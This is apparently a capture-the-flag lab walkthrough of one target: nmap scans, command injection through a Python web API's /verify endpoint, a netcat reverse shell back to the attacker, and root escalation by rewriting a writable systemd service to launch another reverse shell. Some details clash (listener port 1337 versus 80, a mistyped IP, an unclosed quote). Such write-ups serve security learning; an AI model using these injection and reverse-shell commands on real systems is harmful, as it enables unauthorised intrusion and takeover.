Nmap scan
```sh
 nmap -p- --min-rate 5000 -T4 -Pn 192.168.200.117
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-17 19:39 IST
Nmap scan report for 192.168.200.117
Host is up (0.061s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
18000/tcp open  biimenu
50000/tcp open  ibm-db2

Nmap done: 1 IP address (1 host up) scanned in 26.48 seconds
```
```sh
nmap -sC -sV -T4 -Pn -p 21,22,80,139,445,18000,50000 192.168.200.117
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-17 19:41 IST
Nmap scan report for 192.168.200.117
Host is up (0.19s latency).

PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.178
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp    open  ssh         OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 b1:e2:9d:f1:f8:10:db:a5:aa:5a:22:94:e8:92:61:65 (RSA)
|   256 74:dd:fa:f2:51:dd:74:38:2b:b2:ec:82:e5:91:82:28 (ECDSA)
|_  256 48:bc:9d:eb:bd:4d:ac:b3:0b:5d:67:da:56:54:2b:a0 (ED25519)
80/tcp    open  http        Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: CentOS \xE6\x8F\x90\xE4\xBE\x9B\xE7\x9A\x84 Apache HTTP \xE6\x9C\x8D\xE5\x8A\xA1\xE5\x99\xA8\xE6\xB5\x8B\xE8\xAF\x95\xE9\xA1\xB5
|_http-server-header: Apache/2.4.37 (centos)
139/tcp   open  netbios-ssn Samba smbd 4
445/tcp   open  netbios-ssn Samba smbd 4
18000/tcp open  biimenu?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 3102
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8" />
|     <title>Action Controller: Exception caught</title>
|     <style>
|     body {
|     background-color: #FAFAFA;
|     color: #333;
|     margin: 0px;
|     body, p, ol, ul, td {
|     font-family: helvetica, verdana, arial, sans-serif;
|     font-size: 13px;
|     line-height: 18px;
|     font-size: 11px;
|     white-space: pre-wrap;
|     pre.box {
|     border: 1px solid #EEE;
|     padding: 10px;
|     margin: 0px;
|     width: 958px;
|     header {
|     color: #F0F0F0;
|     background: #C52F24;
|     padding: 0.5em 1.5em;
|     margin: 0.2em 0;
|     line-height: 1.1em;
|     font-size: 2em;
|     color: #C52F24;
|     line-height: 25px;
|     .details {
|_    bord
50000/tcp open  http        Werkzeug httpd 1.0.1 (Python 3.6.8)
|_http-server-header: Werkzeug/1.0.1 Python/3.6.8
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port18000-TCP:V=7.95%I=7%D=2/17%Time=699476FD%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(GetReque
SF:st,C76,"HTTP/1\.0\x20403\x20Forbidden\r\nContent-Type:\x20text/html;\x2
SF:0charset=UTF-8\r\nContent-Length:\x203102\r\n\r\n<!DOCTYPE\x20html>\n<h
SF:tml\x20lang=\"en\">\n<head>\n\x20\x20<meta\x20charset=\"utf-8\"\x20/>\n
SF:\x20\x20<title>Action\x20Controller:\x20Exception\x20caught</title>\n\x
SF:20\x20<style>\n\x20\x20\x20\x20body\x20{\n\x20\x20\x20\x20\x20\x20backg
SF:round-color:\x20#FAFAFA;\n\x20\x20\x20\x20\x20\x20color:\x20#333;\n\x20
SF:\x20\x20\x20\x20\x20margin:\x200px;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\
SF:x20body,\x20p,\x20ol,\x20ul,\x20td\x20{\n\x20\x20\x20\x20\x20\x20font-f
SF:amily:\x20helvetica,\x20verdana,\x20arial,\x20sans-serif;\n\x20\x20\x20
SF:\x20\x20\x20font-size:\x20\x20\x2013px;\n\x20\x20\x20\x20\x20\x20line-h
SF:eight:\x2018px;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20pre\x20{\n\x20\x2
SF:0\x20\x20\x20\x20font-size:\x2011px;\n\x20\x20\x20\x20\x20\x20white-spa
SF:ce:\x20pre-wrap;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20pre\.box\x20{\n\
SF:x20\x20\x20\x20\x20\x20border:\x201px\x20solid\x20#EEE;\n\x20\x20\x20\x
SF:20\x20\x20padding:\x2010px;\n\x20\x20\x20\x20\x20\x20margin:\x200px;\n\
SF:x20\x20\x20\x20\x20\x20width:\x20958px;\n\x20\x20\x20\x20}\n\n\x20\x20\
SF:x20\x20header\x20{\n\x20\x20\x20\x20\x20\x20color:\x20#F0F0F0;\n\x20\x2
SF:0\x20\x20\x20\x20background:\x20#C52F24;\n\x20\x20\x20\x20\x20\x20paddi
SF:ng:\x200\.5em\x201\.5em;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20h1\x20{\
SF:n\x20\x20\x20\x20\x20\x20margin:\x200\.2em\x200;\n\x20\x20\x20\x20\x20\
SF:x20line-height:\x201\.1em;\n\x20\x20\x20\x20\x20\x20font-size:\x202em;\
SF:n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20h2\x20{\n\x20\x20\x20\x20\x20\x20
SF:color:\x20#C52F24;\n\x20\x20\x20\x20\x20\x20line-height:\x2025px;\n\x20
SF:\x20\x20\x20}\n\n\x20\x20\x20\x20\.details\x20{\n\x20\x20\x20\x20\x20\x
SF:20bord")%r(HTTPOptions,C76,"HTTP/1\.0\x20403\x20Forbidden\r\nContent-Ty
SF:pe:\x20text/html;\x20charset=UTF-8\r\nContent-Length:\x203102\r\n\r\n<!
SF:DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n\x20\x20<meta\x20chars
SF:et=\"utf-8\"\x20/>\n\x20\x20<title>Action\x20Controller:\x20Exception\x
SF:20caught</title>\n\x20\x20<style>\n\x20\x20\x20\x20body\x20{\n\x20\x20\
SF:x20\x20\x20\x20background-color:\x20#FAFAFA;\n\x20\x20\x20\x20\x20\x20c
SF:olor:\x20#333;\n\x20\x20\x20\x20\x20\x20margin:\x200px;\n\x20\x20\x20\x
SF:20}\n\n\x20\x20\x20\x20body,\x20p,\x20ol,\x20ul,\x20td\x20{\n\x20\x20\x
SF:20\x20\x20\x20font-family:\x20helvetica,\x20verdana,\x20arial,\x20sans-
SF:serif;\n\x20\x20\x20\x20\x20\x20font-size:\x20\x20\x2013px;\n\x20\x20\x
SF:20\x20\x20\x20line-height:\x2018px;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\
SF:x20pre\x20{\n\x20\x20\x20\x20\x20\x20font-size:\x2011px;\n\x20\x20\x20\
SF:x20\x20\x20white-space:\x20pre-wrap;\n\x20\x20\x20\x20}\n\n\x20\x20\x20
SF:\x20pre\.box\x20{\n\x20\x20\x20\x20\x20\x20border:\x201px\x20solid\x20#
SF:EEE;\n\x20\x20\x20\x20\x20\x20padding:\x2010px;\n\x20\x20\x20\x20\x20\x
SF:20margin:\x200px;\n\x20\x20\x20\x20\x20\x20width:\x20958px;\n\x20\x20\x
SF:20\x20}\n\n\x20\x20\x20\x20header\x20{\n\x20\x20\x20\x20\x20\x20color:\
SF:x20#F0F0F0;\n\x20\x20\x20\x20\x20\x20background:\x20#C52F24;\n\x20\x20\
SF:x20\x20\x20\x20padding:\x200\.5em\x201\.5em;\n\x20\x20\x20\x20}\n\n\x20
SF:\x20\x20\x20h1\x20{\n\x20\x20\x20\x20\x20\x20margin:\x200\.2em\x200;\n\
SF:x20\x20\x20\x20\x20\x20line-height:\x201\.1em;\n\x20\x20\x20\x20\x20\x2
SF:0font-size:\x202em;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20h2\x20{\n\x20
SF:\x20\x20\x20\x20\x20color:\x20#C52F24;\n\x20\x20\x20\x20\x20\x20line-he
SF:ight:\x2025px;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20\.details\x20{\n\x
SF:20\x20\x20\x20\x20\x20bord");
Service Info: OS: Unix

Host script results:
| smb2-time: 
|   date: 2026-02-17T14:11:17
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.04 seconds
```

Visiting web server on port 80.

Directory brute forcing gave us nothing.

Port 50000 has website kind of api with **Werkzeug/1.0.1 Python/3.6.8** given options like

/generate, /verify

Curl -s option for silence and -I for interactive
```sh
curl -i or -si http://IP
```


showing kind of hint **{‘email@domain’}** lets try to put some email

The earlier response clues us in that an email is required..

Now, code is generated. use this code in code parameter in POST request.

An attempt to validate the invite code reveals a familiar and ominous error. Other than API Fuzzing, we can try submitting other value to test if the application performs evaluation.


### Exploitation
Knowing the server runs `Python/3.6.8` (thanks, `nmap`), we decide to try the powerful but dangerous `os` module. We can try to command injection using **python os module**.


With `os` access confirmed, it’s time for a reverse shell. We set up a listener on port 18000 as it was open.

Then, we connect back using a reverse shell.
```sh
curl -i http://192.168.200.117:50000/verify -X POST --data "code=os.system('nc 192.168.45.178 18000 -e /bin/bash)"
```


We got the shell.

**Here, to stabilize the shell with below command as it was using python3.**
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### ## Privilege Escalation

#### Enumeration
1. Sudo

2. SUID (Found nothing interesting)
```sh
find / -perm -u=s -type f 2>/dev/null
```

3.  we search for writable configuration files.
```sh
find /etc -type f -writable 2>/dev/null
```

The writable **pythonapp.service** file suggests a system service configuration. Checking our `sudo` privileges, we see a useful misconfiguration:

### Modifying the Service File

Inspecting the contents of **pythonapp.service**, we see an opportunity for escalation.
Original content

Modified content
I don't have modified POC. But, we changed the value of ExecStart to `nc 192.169.45.178 80 -e /bin/bash` and User value to `root`.


Now we restart our listener on port `1337` and initiate a reboot to activate our modified service. Which was we found in `sudo -l`.
```sh
sudo /sbin/reboot
```

Before running above command, we started the nc on port 80 and received the shell.



